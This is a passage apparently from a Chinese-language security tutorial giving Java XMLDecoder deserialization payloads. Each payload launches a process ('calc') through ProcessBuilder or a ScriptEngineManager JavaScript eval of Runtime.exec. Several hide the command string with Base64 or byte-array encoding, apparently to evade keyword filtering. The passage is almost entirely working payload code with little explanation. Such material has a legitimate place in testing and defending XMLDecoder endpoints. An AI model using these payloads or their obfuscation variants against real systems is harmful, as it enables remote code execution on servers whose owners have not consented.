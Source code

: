 ```
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_202" class="java.beans.XMLDecoder">
  <!-- 创建一个 ProcessBuilder 对象 -->
  <object class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="1">
      <void index="0">
        <!-- 将 Base64 字符串解码为字节数组，并转换为字符串 -->
        <object class="java.lang.String">
          <array class="byte">
            <!-- 调用 Base64 解码器 -->
            <void method="decode">
              <object class="java.util.Base64" method="getDecoder"/>
              <string>Y2FsYw==</string> <!-- Base64 编码的 "calc" -->
            </void>
          </array>
        </object>
      </void>
    </array>
    <!-- 启动进程 -->
    <void method="start"/>
  </object>
</java>
```  
  
  
1  
  
**0x04 Byte编码**  
  
****```
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_202" class="java.beans.XMLDecoder">
  <object class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="1">
      
      <void index="0">
        <string><object class="java.lang.String"><array class="byte" length="4">
          <void index="0"><byte>99</byte></void> 
          <void index="1"><byte>97</byte></void> 
          <void index="2"><byte>108</byte></void> 
          <void index="3"><byte>99</byte></void> 
        </array></object></string>
      </void>
    </array>
    <void method="start"></void>
  </object>
</java>
```  
  
  
  
1  
  
**0x05 ScriptEngineManager**  
  
****```
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_202" class="java.beans.XMLDecoder">
  <object class="javax.script.ScriptEngineManager" method="newInstance">
    <void method="getEngineByName">
      <string>JavaScript</string>
      <void method="eval">
        <string>java.lang.Runtime.getRuntime().exec("calc")</string>
      </void>
    </void>
```